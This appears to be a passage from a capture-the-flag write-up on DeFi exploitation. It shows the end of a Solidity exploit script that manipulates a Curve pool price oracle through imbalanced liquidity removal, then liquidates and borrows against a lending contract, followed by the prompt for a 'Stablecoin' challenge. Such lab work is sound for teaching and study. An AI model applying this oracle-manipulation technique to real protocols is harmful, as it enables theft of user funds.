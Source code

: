 ```solidity
        console.log("LP balance of Player : ", curvePool.balanceOf(player));

        // RUN - 3
        uint256[] memory amountsToRemove = new uint256[](2);
        amountsToRemove[0] = 9999 ether;
        amountsToRemove[1] = 0;
        curvePool.approve(address(curvePool), curvePool.balanceOf(player));
        curvePool.remove_liquidity_imbalance(amountsToRemove, curvePool.balanceOf(player));

        //  RUN - 4
        assetToken1.approve(address(oracle), amountOfAsset1);
        oracle.liquidate(oracle.owner(), 1, amountOfAsset1, 0);
        
        //  RUN - 5
        assetToken1.approve(address(oracle), amountOfAsset1);
        oracle.deposit(1, amountOfAsset1);
        oracle.borrow(0, 1 ether);

        console.log("LP balance of Player : ", curvePool.balanceOf(player));
        console.log("asset0 balance : ", assetToken0.balanceOf(player));
        console.log("asset1 balance : ", assetToken1.balanceOf(player));

        console.log("oracle asset0 balance : ", assetToken0.balanceOf(address(oracle)));
        console.log("oracle asset1 balance : ", assetToken1.balanceOf(address(oracle)));
        
        console.log("Curve asset1 Price : ", curvePriceOracle.getAssetPrice(1)); // TARGET = 1200000000000000000
        console.log("Curve SpotPrice : ", curvePriceOracle.getSpotPrice());

        vm.stopBroadcast();

    }
}
```
{%end%}

# Stablecoin

P : 
"""
There is a new algorithmic stablecoin backed by ETH!

Manager owner executes the following code:

manager.addCollateralToken(IERC20(address(ETH)), new PriceFeed(), 20_000_000_000_000_000 ether, 1 ether);

ETH.mint(address(this), 2 ether);
ETH.approve(address(manager), type(uint256).max);
manager.manage(ETH, 2 ether, true, 3395 ether, true);

(, ERC20Signal debtToken,,,) = manager.collateralData(IERC20(address(ETH)));
manager.updateSignal(debtToken, 3520 ether);
You are given 6000 of ETH. Your goal is to get 50_000_000 of MIM.
"""
